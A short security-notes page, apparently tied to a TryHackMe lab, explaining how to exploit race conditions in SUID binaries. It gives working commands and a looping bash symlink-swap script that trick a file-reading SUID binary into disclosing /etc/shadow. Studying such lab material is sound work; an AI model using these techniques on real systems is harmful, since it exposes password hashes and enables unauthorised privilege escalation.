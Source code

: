 ```yaml
---
title: Binary Exploitation with Race Conditions
description: 
tags:
    - Reverse Engineering
refs:
    - https://tryhackme.com/room/raceconditions
date: 2023-06-19
draft: false
---
```


## Abuse User Input Method

If the SUID binary waits for our input the function like **`getchar`** or **`scanf`**, we can manipulate the state for something while the binary is waiting for our input.

```bash
puts("Enter: ");
getchar();
```

Here is an example for reading arbitrary file which cannot be read by current user.

### Exploitation

Assume the binary reads contents of the file which is passed in the argument as below.

```bash
./suid_binary_to_read_file <file_path>
```

First off, create arbitrary file to read, then execute the binary with passing the file.  
The binary waits for our input as below. We should not enter anything at the moment.

```bash
echo test > /tmp/test.txt
./suid_binary_to_read_file /tmp/test.txt

# Result
Enter: 
```

While in this state, open another terminal.  
Remove the original file, then create a symbolic link for desired file e.g. **`/etc/shadow`**. Note that this file should be the same name as the original one (**`/tmp/test.txt`**) to allow the binary to read the contents of the file passed when executing.

```bash
rm /tmp/test.txt
ln -s /etc/shadow /tmp/test.txt
```

Now in the first terminal, enter some input. We may get the contents of the desired file.

<br />

## Abuse Sleep Method

If the SUID binary pauses slightly in the middle of processing, we can exploit the little bit of time.  
First, create a shell script for leading race conditions.  
Assume we want to read the contents of **`/etc/shadow`**.

```bash
#!/usr/bin/env bash

while true
do
	touch test
	ln -s -f /etc/shadow /tmp/test
	rm test
done
```

Then execute the script.

```bash
chmod +x exploit.sh
./exploit.sh
```

In another terminal, execute the binary with passing the symbolic link file in our shell script above.

```bash
./suid_binary_to_read_file /tmp/test
```

Since our shell script keep creating a symbolic link and removing it, if the timing is right, we can read the contents of the linked file in the process.  
So try again and again until you succeed. In time we should be able to read the desired file.